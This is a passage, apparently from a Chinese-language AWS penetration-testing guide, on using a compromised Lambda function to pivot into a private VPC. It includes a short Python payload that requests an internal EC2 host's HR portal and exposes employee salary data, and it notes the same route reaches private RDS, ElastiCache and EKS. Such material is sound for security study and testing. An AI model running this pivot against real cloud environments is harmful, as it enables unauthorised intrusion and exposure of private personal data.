我们将忽略目标 Lambda 函数中的任何代码，只关注访问内部网络的有效负载。我们知道我们想联系该内部主机上的端口`80`，这可能意味着有一个 HTTP 服务器正在运行，因此我们可以再次使用`requests`库向其发出请求。我们仍然不想破坏任何生产代码，所以一切都将像以前一样包装在一个`try`/`except`块中。一分钟前的 EC2`DescribeInstances`调用给出了目标 EC2 实例的内部 IP 地址，即`172.31.32.192`。我们的有效载荷将如下所示：

```
try:
    from botocore.vendored import requests
    req = requests.get('http://172.31.32.192/')
    print(req.text)
except:
    pass
```

为了简单起见，我们只需将输出打印到控制台并在那里查看，但这是另一种可能需要某种过滤的情况。但是，请确保您的 Lambda 功能具有 internet 访问权限，因为它们在启动到 VPC 时会丢失默认的 internet 访问权限，并依赖 VPC 提供该访问权限。

在运行负载以尝试向该内部 IP 发出 HTTP 请求后，Lambda 控制台中显示了以下内容：


我们联系了内部服务器并收到了响应

就这样，我们可以看到，我们通过访问内部网络绕过网络限制，访问了我们目标公司的某种内部人力资源门户。在底部，我们甚至可以看到一个包含一些私人员工信息的表格，比如他们的工资。

在 AWS 中很容易访问网络的内部。此方法可用于各种不同的攻击，例如访问不可公开访问的 RDS 数据库，因为我们只需在其所在的 VPC/子网中启动 Lambda 函数并与其建立连接即可。所有类型的 AWS 服务都可以选择将资源启动到私有 VPC 中以禁用对其的公共访问，这种进入 VPC 内部的方法允许我们访问所有这些不同的服务；其他一些例子包括`ElastiCache`数据库、EKS 集群等。

# 总结

AWS Lambda 对于 AWS 用户和攻击者来说都是一个非常通用和有用的服务。我们有很多可能使用 Lambda 来帮助我们作为攻击者，最好的一点是，我们的目标甚至不需要使用 Lambda 来帮助我们。

由于 Lambda 有许多不同的用例，因此它始终是需要检查的高优先级服务之一，因为它通常会产生非常有效的攻击路径，使我们能够进一步访问 AWS 环境。另一件需要记住的事情是，对于许多服务，包括 Lambda，它们都在不断发展，打开和关闭我们可以利用的不同攻击路径；保持最新信息和知识是很重要的，因为我们攻击的客户也将利用这些变化。